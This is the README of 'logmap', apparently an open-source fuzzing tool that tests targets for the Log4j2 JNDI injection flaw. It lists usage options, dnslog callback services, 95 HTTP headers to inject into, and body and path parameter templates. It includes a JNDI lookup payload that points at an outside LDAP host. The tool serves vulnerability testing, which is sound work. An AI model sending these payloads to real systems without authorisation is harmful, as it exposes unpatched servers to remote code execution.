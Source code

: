 # logmap - Log4j2 jndi injection fuzz tool

Used for fuzzing to test whether there are log4j2 jndi injection vulnerabilities in header/body/path  
Use https://log.xn--9tr.com dnslog by default, If you want to use http://ceye.io, you need to modify the domain and token  
Manually edit line 372 in logmap.py to modify `args.ceye = ["xxxxxx.ceye.io", "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]`

# Use  
```bash
zhzy@debian:~/$ pip3 install -r requirements.txt
zhzy@debian:~/$ python3 logmap.py -h
```


![banner](https://user-images.githubusercontent.com/32918050/145970843-3d5522f6-0064-4464-b7f8-48efcd41ffbc.png)  

# Options
```bash
  -u URL, --url URL     Target URL (e.g. http://example.com )
  -f FILE, --file FILE  Select a target list file (e.g. list.txt )
  -d 1, --dns 1         Dnslog [1:log.xn--9tr.com, 2:ceye.io] default 1
  -p PAYLOAD            Custom payload (e.g. ${jndi:ldap://xx.dns.xx/} )
  -t 10                 Http timeout default 10s
  --proxy PROXY         Proxy [socks5/socks4/http] (e.g. http://127.0.0.1:8080)
  -h, --help            Show this help message and exit

```

# Config  
There are currently 95 fuzz headers  
```
Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Ali-CDN-Real-IP
Authorization
Cache-Control
Cdn-Real-Ip
Cdn-Src-Ip
CF-Connecting-IP
Client-IP
Contact
Cookie
DNT
Fastly-Client-Ip
Forwarded-For-Ip
Forwarded-For
Forwarded
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Originating-Ip
Origin
Pragma
Proxy-Client-IP
Proxy
Referer
TE
True-Client-Ip
True-Client-IP
Upgrade
User-Agent
Via
Warning
WL-Proxy-Client-IP
X-Api-Version
X-Att-Deviceid
X-ATT-DeviceId
X-Client-IP
X-Client-Ip
X-Client-IP
X-Cluster-Client-IP
X-Correlation-ID
X-Csrf-Token
X-CSRFToken
X-Do-Not-Track
X-Foo-Bar
X-Foo
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded
X-Forwarded-Port
X-Forwarded-Protocol
X-Forwarded-Proto
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded-Ssl
X-Forwarder-For
X-Forward-For
X-Forward-Proto
X-Frame-Options
X-From
X-Geoip-Country
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Http-Method-Override
X-HTTP-Method-Override
X-Http-Method
X-Http-Path-Override
X-Https
X-Htx-Agent
X-Hub-Signature
X-If-Unmodified-Since
X-Imbo-Test-Config
X-Insight
X-Ip
X-Ip-Trail
X-Leakix
X-Original-URL
X-Originating-IP
X-ProxyUser-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Request-ID
X-True-IP
X-UIDH
X-Wap-Profile
X-WAP-Profile
X-XSRF-TOKEN
```
Some body and path  
You can also modify him to add your own body  
```
payload={}
user={}
pass={}
username={}
password={}
login={}
... ...
?id={}
?username={}
... ...
```
